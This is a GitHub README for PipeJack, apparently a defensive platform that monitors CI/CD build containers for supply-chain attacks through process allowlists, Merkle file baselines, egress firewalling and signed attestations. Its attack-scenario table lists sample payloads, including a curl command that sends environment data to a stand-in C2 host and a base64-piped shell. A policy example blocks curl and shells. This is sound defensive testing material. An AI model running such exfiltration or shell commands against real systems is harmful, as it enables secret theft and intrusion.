



# PipeJack: Multi-Sensor Zero-Trust Security Platform for CI/CD Pipelines

[](docs/testing/VALIDATION_REPORT.md)
[](LICENSE)
[](SECURITY.md)
[-blueviolet.svg)](docs/testing/VALIDATION_REPORT.md)
[](core/pipejack/go.mod)
[](docs/CURRENT_STATUS.md)
[](docs/research/CONTRIBUTION.md)

**PipeJack** is an autonomous, host-assisted, multi-sensor zero-trust security platform engineered to protect containerized Continuous Integration and Continuous Delivery (CI/CD) pipelines from software supply chain attacks, build-time code injection, rogue process execution, and covert data exfiltration.



---

## Table of Contents
- [1. Executive Summary](#1-executive-summary)
- [2. The Supply Chain Build-Time Blind Spot](#2-the-supply-chain-build-time-blind-spot)
- [3. Why Static and Image Scanners Fail at Build Time](#3-why-static-and-image-scanners-fail-at-build-time)
- [4. System Architecture & Two-VM Topology](#4-system-architecture--two-vm-topology)
- [5. Multi-Sensor Security Subsystems](#5-multi-sensor-security-subsystems)
- [6. Policy Decision Point (PDP) & Allow/Block Pipeline](#6-policy-decision-point-pdp--allowblock-pipeline)
- [7. Cryptographic Attestation Ledger](#7-cryptographic-attestation-ledger)
- [8. Supported Stacks & Immutable Digest Pinning](#8-supported-stacks--immutable-digest-pinning)
- [9. Adversarial Attack Matrix (Scenarios 01–07)](#9-adversarial-attack-matrix-scenarios-0107)
- [10. Authoritative Verification & Test Results](#10-authoritative-verification--test-results)
- [11. Quick Start Guide](#11-quick-start-guide)
- [12. Demonstration Web Console](#12-demonstration-web-console)
- [13. Repository Layout](#13-repository-layout)
- [14. Technical Limitations & Boundary Conditions](#14-technical-limitations--boundary-conditions)
- [15. Future Roadmap](#15-future-roadmap)
- [16. Security Policy & Disclosures](#16-security-policy--disclosures)
- [17. Contributing](#17-contributing)
- [18. License & Citation](#18-license--citation)

---

## 1. Executive Summary

Modern build automation systems grant untrusted third-party code broad execution privileges inside worker containers. Lifecycle hooks (`npm postinstall`, `pip setup.py`, Maven compiler plugins) routinely run as `root` inside build containers to compile dependencies. Malicious packages exploit this window to execute binaries, steal secrets from environment variables, mutate compiler outputs, or establish reverse shells.

PipeJack encloses build containers within a host-level, multi-sensor zero-trust observation bubble:
- **Process Invariants**: Polling `/proc` inside the container cgroup every 150ms to enforce strict binary allowlists.
- **Filesystem Invariants**: Calculating pre/post SHA-256 Merkle tree baselines across the workspace to block source tampering.
- **Network Invariants**: Injecting kernel `iptables` chains into container network namespaces to prevent outbound data exfiltration.
- **Statistical Invariants**: Evaluating z-score telemetry variance against rolling baseline profiles.
- **Deterministic Gatekeeping**: Policy Decision Point (PDP) automatically routes clean builds to production registries (`ALLOW`) or quarantines compromised builds (`BLOCK`) with HTTP 403 Forbidden.
- **Cryptographic Provenance**: Every build generates an Ed25519-signed attestation record linked to a SHA-256 Merkle hash chain.

---

## 2. The Supply Chain Build-Time Blind Spot

Software supply chain attacks such as SolarWinds (Sunburst), Codecov, and malicious npm/PyPI packages demonstrate that attackers target build pipelines rather than hardened production clusters:

```
  Developer Workstation        CI/CD Build Execution Window             Production Deployment
┌────────────────────────┐      ┌─────────────────────────────┐      ┌─────────────────────────┐
│ Commit Source & Deps   ├─────►│ ⚠️ THE BUILD-TIME BLIND SPOT ├─────►│ OCI Container Registry  │
│ (package.json/pom.xml) │      │ • postinstall scripts run   │      │ (Production Cluster)    │
└────────────────────────┘      │ • setup.py builds binaries  │      └─────────────────────────┘
                                │ • Arbitrary exec & exfil    │
                                └─────────────────────────────┘
```

Because compilation inherently involves executing arbitrary code to assemble binary artifacts, traditional security controls fail to isolate or audit this transient phase.

---

## 3. Why Static and Image Scanners Fail at Build Time

| Security Control | Operating Layer | Why It Fails During Build Execution |
| :--- | :--- | :--- |
| **SAST (Static Code Analysis)** | Source Code Repo | Inspects application code patterns, but is completely blind to dynamic downloaders, obfuscated scripts, or binary payloads introduced during compilation. |
| **SCA (Dependency Scanning)** | Dependency Manifests | Checks known CVE databases; incapable of detecting zero-day malicious scripts embedded in brand-new or typosquatted dependency releases. |
| **Container Image Scanners** | Post-Build Image Tarball | Scans the final resting image layer; blind to transient attacks (e.g., scripts that exfiltrate secrets via `curl` and delete their logs before the image is committed). |
| **In-Container Security Agents** | Container User Space | Run alongside malicious code inside the container; unprivileged agents cannot stop `root` processes, and can be disabled or bypassed by sophisticated malware. |
| **PipeJack (Host-Level Sidecar)** | Host Kernel & Cgroups | **Operates outside container namespace**: Watches kernel `/proc`, manages netns `iptables`, and computes Merkle trees from the host. Immune to in-container tampering. |

---

## 4. System Architecture & Two-VM Topology

PipeJack is architected around a distributed two-VM topology separating developer payload creation from server-side security enforcement:

```
+-----------------------------------------------------------------------------------+
| VM-1 (192.168.88.132) — Developer & Adversarial Lead                              |
| • Applications: Java 17 Banking API, Calculator AST API, Node.js, Python 3.12     |
| • Attack Suites: 7 Supply Chain Scenarios (01-07), evil-pkg, dropper fixtures    |
| • Dispatcher: pipejack-upload.sh -> HTTP POST /upload (:8888)                     |
+-----------------------------------------------------------------------------------+
                                         │ HTTP POST /upload (:8888)
                                         ▼
+-----------------------------------------------------------------------------------+
| VM-2 (192.168.88.133) — Security, CI Orchestrator & Attestation Lead             |
|                                                                                   |
| 1. CI Orchestrator (`pipejack-ci.service` :8888):                                 |
|    • Unpacks workspace tarball, detects runtime stack, launches Docker container  |
|    • Attaches PipeJack multi-sensor monitoring sidecar                            |
|                                                                                   |
| 2. Multi-Sensor Security Daemon (`pipejackd`):                                    |
|    • proctree: 150ms cgroup /proc scanner vs binary allowlist                     |
|    • fschecker: SHA-256 Merkle tree pre/post workspace diff                      |
|    • egressfw + netmon: netns iptables chain + passive /proc/net socket polling   |
|    • anomaly: z-score statistical variance against 20-build rolling profiles     |
|                                                                                   |
| 3. Policy Decision Point (PDP):                                                   |
|    • ALLOW -> Tag & push to localhost:5000 -> Deploy live microservice -> HTTP 200|
|    • BLOCK -> Quarantine tag (<tag>-quarantine) -> Halt deployment -> HTTP 403   |
|                                                                                   |
| 4. Cryptographic Attestation Ledger:                                              |
|    • Computes canonical build hash -> Ed25519 digital signature -> prev_hash chain|
|    • Audited & verified via verify-attest.go (282+ consecutive builds intact)     |
+-----------------------------------------------------------------------------------+
```

---

## 5. Multi-Sensor Security Subsystems



### 5.1 Process Tree Differ (`proctree`)
- **Status**: `IMPLEMENTED & VALIDATED IN PRODUCTION`
- **Location**: `core/pipejack/proctree/`
- Maps the build container's cgroup v2 scope (`/sys/fs/cgroup/system.slice/docker-<id>.scope`) and scans all active PIDs every **150ms**.
- Resolves each `/proc/<pid>/exe` symlink to its canonical binary path and verifies it against the application's strict allowlist.
- Intercepts unauthorized interactive shells (`/bin/sh`, `/bin/bash`), network tools (`/usr/bin/curl`, `/usr/bin/wget`), and unapproved interpreters.
- *Note on Architecture*: Vendored eBPF tracepoint controllers (`core/pipejack/ebpfctrl/`, `netblock/`) are included as architectural kernel prototypes; the active, production-validated daemon uses Linux cgroup v2 `/proc` polling for maximum kernel portability.

### 5.2 Filesystem Merkle Baseline Engine (`fschecker`)
- **Status**: `IMPLEMENTED & VALIDATED IN PRODUCTION`
- **Location**: `core/pipejack/fschecker/`
- Recursively hashes the build workspace prior to execution, computing a canonical SHA-256 Merkle root.
- Re-scans post-build and calculates an exact cryptographic diff (`FilesAdded`, `FilesModified`, `FilesDeleted`).
- Enforces source immutability: compiler outputs (`target/**`, `dist/**`) are allowed; any mutation to source trees (`src/**`, `pom.xml`, `package.json`) triggers immediate quarantine.

### 5.3 Network Egress Firewall & Socket Monitor (`egressfw`, `netmon`)
- **Status**: `IMPLEMENTED & VALIDATED IN PRODUCTION`
- **Location**: `core/pipejack/internal/egressfw/`, `core/pipejack/internal/netmon/`
- Injects a dedicated `PIPEJACK_EGRESS` iptables chain directly into the build container's network namespace. Default policy drops all outbound traffic.
- Concurrently monitors `/proc/net/{tcp,tcp6,udp,udp6}` and correlates active socket inodes with container PIDs. Catches and flags unauthorized socket connection attempts.

### 5.4 Statistical Anomaly Detection Engine (`anomaly`)
- **Status**: `IMPLEMENTED & VALIDATED IN PRODUCTION`
- **Location**: `core/pipejack/internal/anomaly/`
- Tracks four telemetry metrics across builds: `process_count`, `file_change_count`, `network_count`, and `duration_ms`.
- Computes z-scores (\(z = \frac{x - \mu}{\sigma}\)) against a rolling 20-build window. Operates in advisory mode during live runs to provide forensic telemetry without false rejections during developer warmup.

---

## 6. Policy Decision Point (PDP) & Allow/Block Pipeline

The Policy Decision Point (`core/pipejack/internal/pdp/`) evaluates multi-sensor telemetry against declarative YAML policies (`deployment/policies/`):

```yaml
version: "1.0"
name: "banking-api-policy"
workload: "java"
enforcement:
  allowed_processes:
    - "/usr/bin/mvn"
    - "/opt/java/openjdk/bin/java"
  forbidden_processes:
    - "/usr/bin/curl"
    - "/bin/sh"
  filesystem:
    allowed_mutation_patterns:
      - "target/**"
    prohibited_mutation_patterns:
      - "src/**"
```

### Deterministic Decision Outcomes:
- **ALLOW Verdict (HTTP 200 OK)**: Zero violations detected. Container image is built, pushed to the local registry (`localhost:5000/<app>:<tag>`), and deployed to production.
- **BLOCK Verdict (HTTP 403 Forbidden)**: Any policy violation detected. Container image is tagged with `<tag>-quarantine`, deployment is blocked, and complete violation logs are returned.

---

## 7. Cryptographic Attestation Ledger



PipeJack provides non-repudiable build provenance through an append-only cryptographic ledger (`services/custom-ci/attest.go`):
1. **Canonical Build Serialization**: Build metadata, git commit context, sensor telemetry, and PDP verdict are serialized into deterministic JSON.
2. **SHA-256 Digest (`self_hash`)**: Computed over the canonical record.
3. **Cryptographic Linking (`prev_hash`)**: Each record includes the `self_hash` of the preceding build, creating an unbroken Merkle hash chain.
4. **Digital Signature**: The payload is signed with an asymmetric Ed25519 private key.
5. **Chain Verification**: Verified 100% intact across 282+ consecutive historical builds using `services/custom-ci/verify-attest.go`.

---

## 8. Supported Stacks & Immutable Digest Pinning

All build containers use immutable SHA-256 content digests to prevent upstream image tampering:

| Workload | Image Reference | Pinned SHA-256 Digest |
| :--- | :--- | :--- |
| **Java Builder** | `maven` | `sha256:40fcff4c4043d6adc90286c2e38ec70950f34f6dd5784f7e524866c66520cc23` |
| **Java Runtime** | `eclipse-temurin` | `sha256:92999aea37688157a53a40bfcb187c30f317422e028045fd5fc5c548fde9e626` |
| **Node.js** | `node` | `sha256:8d6421d663b4c28fd3ebc498332f249011d118945588d0a35cb9bc4b8ca09d9e` |
| **Python** | `python` | `sha256:0687a6bc9716edc2a6ee0fbfb0f87e7ee358b262b67c9215de91bc9b2d38ba71` |

---

## 9. Adversarial Attack Matrix (Scenarios 01–07)

PipeJack includes a comprehensive adversarial testbed (`attacks/`) replicating real-world software supply chain attacks:

| Scenario | Attack Vector | Trigger Payload | Primary Sensor | PDP Verdict | Quarantine Action |
| :--- | :--- | :--- | :--- | :--- | :--- |
| **01** | Shell Execution | `/bin/sh -c "echo attack"` | `proctree` | **BLOCK (403)** | Tagged `<tag>-quarantine`, deployment blocked |
| **02** | HTTP Exfiltration | `curl -d "env" http://c2:9999` | `proctree` + `egressfw` | **BLOCK (403)** | Outbound packets dropped, quarantined |
| **03** | Source Tampering | Modification of `src/**/*.java` | `fschecker` | **BLOCK (403)** | Merkle root mismatch, quarantined |
| **04** | Obfuscated Shell | `echo <base64> \| sh` | `proctree` | **BLOCK (403)** | Kernel `/proc/<pid>/exe` intercepted |
| **05** | Multi-Stage Dropper | Staged binary in `/tmp/dropper` | `fschecker` + `proctree` | **BLOCK (403)** | Staged execution blocked, quarantined |
| **06** | Trickling Exfiltration| Low-rate raw socket transmission | `egressfw` + `netmon` | **BLOCK (403)** | Netns SYN packet dropped |
| **07** | Statistical Anomaly | Process explosion & rapid file deviation | `anomaly` | **ALLOW (Advisory)** / **BLOCK** | Anomaly signed in attestation; quarantined when `anomaly_block: true` |

*Detailed scenario specifications are documented in [docs/testing/ATTACK_SCENARIOS.md](docs/testing/ATTACK_SCENARIOS.md).*

---

## 10. Authoritative Verification & Test Results

Detailed in [docs/testing/VALIDATION_REPORT.md](docs/testing/VALIDATION_REPORT.md):

- **Unit Test Suite**: **52 / 52 Passed (100%)**
  - `core/pipejack` (`proctree`, `fschecker`, `egressfw`, `netmon`, `anomaly`, `pdp`): 47 tests passed.
  - `services/custom-ci` (`quarantine_test.go`): 5 tests passed.
  - Race condition checking: `go test -race` clean.
- **Cryptographic Attestation Audit**: **282 / 282 Records Verified (100%)**
  - Zero broken chain links, zero signature verification errors.
- **Multi-Stack Live Builds**: Clean and malicious builds validated across Java 17, Spring, Node.js 18, and Python 3.12.
- **Adversarial Suite**: Scenarios 01–06 blocked & quarantined (HTTP 403 Forbidden, 100% prevention); Scenario 07 detected in telemetry & recorded in signed attestation (Advisory default; BLOCK when `anomaly_block: true`).

---

## 11. Quick Start Guide

### Single-Machine Local Setup
```bash
# Clone the official repository
git clone https://github.com/ramKarthik57/pipejack-platform.git
cd pipejack-platform

# Run all unit tests
(cd core/pipejack && go test -v -count=1 ./...)
(cd services/custom-ci && go test -v -count=1 ./...)

# Verify attestation ledger integrity
cd services/custom-ci
go run verify-attest.go
```

### Running Distributed Live Uploads (VM-1 -> VM-2)
```bash
# Submit clean Java workload (Expect HTTP 200 OK & Deployment)
CI_ENDPOINT="http://192.168.88.133:8888" ./scripts/pipejack-upload.sh clean-java.tar.gz

# Submit malicious workload (Expect HTTP 403 Forbidden & Quarantine)
CI_ENDPOINT="http://192.168.88.133:8888" ./scripts/pipejack-upload.sh malicious-java.tar.gz

# Execute full adversarial attack suite
cd attacks && ./run-all.sh
```

*For complete setup options, see [docs/operations/QUICK_START.md](docs/operations/QUICK_START.md).*

---

## 12. Demonstration Web Console

PipeJack includes an interactive demonstration console running on VM-2 (`http://192.168.88.133:8090`):
- **Live Pipeline Monitor**: Real-time visualization of container creation, cgroup tracking, and sensor verdicts.
- **Multi-Application Playground**: Direct interactive testing of deployed microservices (Java Banking API, Spring Calculator AST Engine, Node.js Payment Service, Python Analytics).
- **Security Lockout Verification**: Dynamically locks application playgrounds when an uploaded build triggers policy quarantine.
- **Attestation Explorer**: Real-time rendering of Ed25519 signatures and SHA-256 Merkle chain linkages.

---

## 13. Repository Layout

```
pipejack-platform/
├── .github/                            # GitHub community standards & issue templates
│   ├── ISSUE_TEMPLATE/                 # Structured bug and feature templates
│   └── PULL_REQUEST_TEMPLATE.md        # Comprehensive pull request checklist
├── core/                               # Core Security Daemon & Subsystems (VM-2)
│   ├── pipejack/                       # Main Go module
│   │   ├── cmd/pipejackd/              # Daemon entrypoint
│   │   ├── cmd/proctree/               # Standalone process tree differ CLI
│   │   ├── proctree/                   # Linux cgroup v2 /proc scanner
│   │   ├── fschecker/                  # SHA-256 Merkle tree baseline engine
│   │   ├── internal/egressfw/          # iptables network firewall controller
│   │   ├── internal/netmon/            # Passive /proc/net socket monitor
│   │   ├── internal/anomaly/           # Statistical anomaly engine (z-scores)
│   │   ├── internal/pdp/               # Declarative Policy Decision Point
│   │   ├── ebpfctrl/                   # Architectural eBPF tracepoint bindings
│   │   └── netblock/                   # eBPF socket block C programs
├── services/                           # CI & Attestation Microservices (VM-2)
│   └── custom-ci/                      # CI Orchestrator, quarantine, attestation
│       ├── main.go                     # HTTP server, cgroup discovery, pipeline
│       ├── attest.go                   # Ed25519 signing & Merkle ledger chaining
│       ├── verify-attest.go            # Cryptographic chain verification tool
│       └── quarantine_test.go          # Quarantine regression tests
├── applications/                       # Production Client Workloads (VM-1)
│   ├── banking-api/                    # Java 17 / Maven Banking Microservice
│   ├── calculator-api/                 # Java 17 / Maven Safe AST Calculator
│   ├── nodejs-app/                     # Node.js 18 Payment Service
│   └── python-app/                     # Python 3.12 Real-Time Analytics
├── security-fixtures/                  # Adversarial Supply Chain Fixtures (VM-1)
│   ├── nodejs-malicious/               # Malicious npm postinstall exfiltration
│   ├── python-malicious/               # Malicious setup.py socket exfiltration
│   ├── vuln-app/                       # Vulnerable microservice testbed
│   └── evil-pkg/                       # Rogue supply chain package
├── attacks/                            # 7 Adversarial Attack Scenarios (VM-1)
│   ├── 01-shell-exec/ ... 07-anomaly/  # Independent reproducible attack vectors
│   └── run-all.sh                      # Master automated attack execution suite
├── deployment/                         # Deployment & Configuration
│   ├── docker/                         # Pinned immutable Dockerfiles
│   ├── systemd/                        # Production systemd unit definitions
│   └── policies/                       # Declarative zero-trust security policies
├── demo/                               # Interactive Demonstration Web Subsystem
│   └── demo-console/                   # Flask demonstration server & UI
├── docs/                               # Comprehensive Technical Documentation
│   ├── architecture/                   # Architecture specs & system topology
│   ├── security/                       # Threat models, trust boundaries, policies
│   ├── testing/                        # Attack matrices & validation reports
│   ├── operations/                     # Quick start guides & runbooks
│   ├── audits/                         # Historical phase audits & certifications
│   ├── history/                        # Multi-VM coordination & file manifests
│   └── assets/                         # Vector architecture diagrams (SVG)
└── scripts/                            # Client upload and deployment scripts
```

---

## 14. Technical Limitations & Boundary Conditions

To maintain academic and engineering integrity, PipeJack's boundary conditions are explicitly documented:
1. **Host-Level Control Group Dependency**: Requires Linux control groups v2 (`cgroup2fs`). Environments restricting host cgroup visibility cannot run the active `proctree` sensor.
2. **Process Polling Granularity**: The production runner operates at a 150ms `/proc` polling interval. Ephemeral fork-exec bursts executing and terminating in under 150ms could theoretically evade sampling; our vendored eBPF tracepoint controllers (`ebpfctrl/`) are architected to eliminate this window in kernel-level environments.
3. **Pure In-Memory Attacks**: Exploits executing solely within the memory of an authorized compiler process (e.g., in-process reflective Java bytecode manipulation) without spawning child processes or touching disk are outside the current multi-sensor boundary.
4. **Advisory Anomaly Detection**: To prevent false rejections during developer warmup cycles, anomaly detection runs in advisory mode during active CI builds, while logging full statistical telemetry for forensic audit.

---

## 15. Future Roadmap

- [ ] **Kernel-Native eBPF Transition**: Elevating vendored `ebpfctrl/` tracepoint programs to primary sensor status for zero-latency process capture.
- [ ] **Hardware TPM Attestation**: Storing Ed25519 signing keys within Hardware Security Modules (HSM) or TPM 2.0 chips.
- [ ] **Kubernetes Admission Controller Webhook**: Validating PipeJack cryptographic attestation chains prior to pod scheduling.
- [ ] **Sigstore / Cosign Interoperability**: Exporting signed build provenance records in in-toto / SLSA standard formats.

---

## 16. Security Policy & Disclosures

For details on supported versions, vulnerability reporting procedures, and our coordinated disclosure timeline, please read our [Security Policy](SECURITY.md).

---

## 17. Contributing

We welcome contributions from developers and researchers! Please review our [Contributing Guidelines](CONTRIBUTING.md) for code standards, testing requirements, and Pull Request procedures.

---

## 18. License & Citation

PipeJack is open-source software licensed under the [Apache License, Version 2.0](LICENSE).

```bibtex
@software{pipejack2026,
  author = {Karthik, Ram and Contributors},
  title = {PipeJack: Multi-Sensor Zero-Trust Security Platform for CI/CD Pipelines},
  year = {2026},
  url = {https://github.com/ramKarthik57/pipejack-platform}
}
```
